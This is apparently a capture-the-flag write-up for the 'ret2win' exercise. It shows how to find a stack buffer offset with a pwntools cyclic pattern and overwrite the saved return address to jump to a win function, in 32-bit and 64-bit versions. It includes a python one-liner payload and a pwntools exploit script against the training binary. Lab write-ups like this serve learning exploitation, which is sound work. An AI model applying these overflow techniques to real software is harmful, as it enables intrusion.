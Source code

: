 # Contents
- Task Description
- 32 bit
- 32 bit script
- 64 bit

## Task Description
Locate a method that you want to call within the binary.  
Call it by overwriting a saved return address on the stack.

## 32 bit
File checks:
32 bit ELF with no canaries
Checking function from within pwndbg.
Three of interest; main, pwnme, ret2win

For the exploit all that is needed is the buffer size and the location of the ret2win function.

make a cyclic pattern.
```python
from pwn import *
g = cyclic_gen()
g.get(100)
```
Then use ```g.find()``` to get the buffer size of 44.
The ret2win function has a memory location of 0x804862c
little endian byte
```
\x2c\x86\x04\x08
```
Generate the payload
```bash
python2 -c 'print "A"*44+"\x2c\x86\x04\x08"' > payload.32bit
```
Run it against the binary. This works and gives out the flag.
```flag
ROPE{a_placeholder_32byte_flag!}
```

## 32 bit script
```python
from pwn import *
# buffer of 44 bytes

location = 0x0804862c
payload = flat(
	asm('nop')*44,
	location
)
io=process(['./ret2win32'])
  
io.sendlineafter('>',payload)
io.recvuntil('Thank you!\n')
flag= io.recvall()
success(flag)
```

## 64 bit
File Checks
64bit ELF with no canaries
Same three function as the 32bit
Find the buffer size by adding 4 bytes to the RBP
which is 40 bytes
find the memory location of the ret2win functions.
0x400756
memory location needs to be 8 bytes
0x0000000000400756
convert to little endian
```bash

\x56\x07\x40\x00\x00\x00\x00\x00
```
Add the buffer and run the payload

---
Creation date: 08-10-2022

Last modified date: Sunday 8th October 2022
***
